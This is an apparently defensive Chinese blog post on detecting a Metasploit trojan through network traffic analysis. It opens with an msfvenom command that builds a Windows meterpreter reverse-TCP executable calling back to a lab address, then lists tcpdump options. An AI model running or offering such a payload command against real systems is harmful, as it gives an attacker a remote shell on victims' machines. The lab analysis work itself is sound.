 ```yaml
---
layout: post
title:  "从网络扼杀Metasploit木马"
date:   2018-01-25
categories: 内网渗透
permalink: /archivers/2018-01-25/1
description: "本篇文章主要记录一下自己的网络分析过程，以及总结一下网络分析相关的技术点。"
---
```

本篇文章主要记录一下自己的网络分析过程，以及总结一下网络分析相关的技术点。


* 目录
{:toc}

## 0x01 生成Metasploit木马


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=8877 -f exe -o hello.exe
```

基本可以看到，若目标执行**hello.exe**后会主动连接**10.211.55.2**的**8877**端口


### 网络环境：

* 10.211.55.2/255.255.255.0
* 10.211.55.11/255.255.255.0

## 0x02 获取数据过程

首先采用`tcpdump`这款命令行数据包分析工具：

```
-a：尝试将网络和广播地址转换成名称；
-c<数据包数目>：收到指定的数据包数目后，就停止进行倾倒操作；
-d：把编译过的数据包编码转换成可阅读的格式，并倾倒到标准输出；
-dd：把编译过的数据包编码转换成C语言的格式，并倾倒到标准输出；
-ddd：把编译过的数据包编码转换成十进制数字的格式，并倾倒到标准输出；
-e：在每列倾倒资料上显示连接层级的文件头；
-f：用数字显示网际网络地址；
-F<表达文件>：指定内含表达方式的文件；
-i<网络界面>：使用指定的网络截面送出数据包；
-l：使用标准输出列的缓冲区；
-n：不把主机的网络地址转换成名字；
-N：不列出域名；
-O：不将数据包编码最佳化；
-p：不让网络界面进入混杂模式；
-q ：快速输出，仅列出少数的传输协议信息；
-r<数据包文件>：从指定的文件读取数据包数据；
-s<数据包大小>：设置每个数据包的大小；
-S：用绝对而非相对数值列出TCP关联数；
-t：在每列倾倒资料上不显示时间戳记；
-tt： 在每列倾倒资料上显示未经格式化的时间戳记；
-T<数据包类型>：强制将表达方式所指定的数据包转译成设置的数据包类型；
-v：详细显示指令执行过程；
-vv：更详细显示指令执行过程；
-x：用十六进制字码列出数据包资料；
-w<数据包文件>：把数据包数据写入指定的文件。
```
